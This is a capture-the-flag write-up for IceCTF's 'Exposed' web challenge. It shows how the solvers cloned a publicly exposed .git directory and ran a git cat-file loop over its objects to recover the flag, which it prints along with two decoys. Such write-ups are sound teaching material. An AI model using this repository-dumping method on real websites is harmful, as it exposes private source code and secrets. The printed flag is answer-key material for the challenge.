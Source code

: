 ## Exposed, web, 60 points

__Description__:

John is pretty happy with himself, he just made his first website! He used all the hip and cool systems, like NginX, PHP and Git! Everyone is so happy for him, but can you get him to give you the flag?


__Solver__: [int10h](https://github.com/brianmwaters) & [mut3](https://github.com/mut3)

This challenge was based on digging back through the git history. The repository was on the server so it could be cloned by doing.

```
git clone http://exposed.vuln.icec.tf/.git
```

We did a lot of manual digging around and reconstructing the repository from git objects ripped off the server, only to realized we could use the `git cat-file` command on the git objects and wrote this script.

```
#!/bin/sh

#git cloned this first
cd exposed.vuln.icec.tf
cd .git/objects
for i in */*; do f=$(echo $i | sed 's/\///'); git cat-file -p $f ; done | grep IceCTF
```

`git cat-file` renders the git object binaries as the versions of the files they represent this script output the flag along with a few decoys.

```
echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
                    echo 'IceCTF{not_this_flag}';
IceCTF{this_isnt_the_flag_either}
```
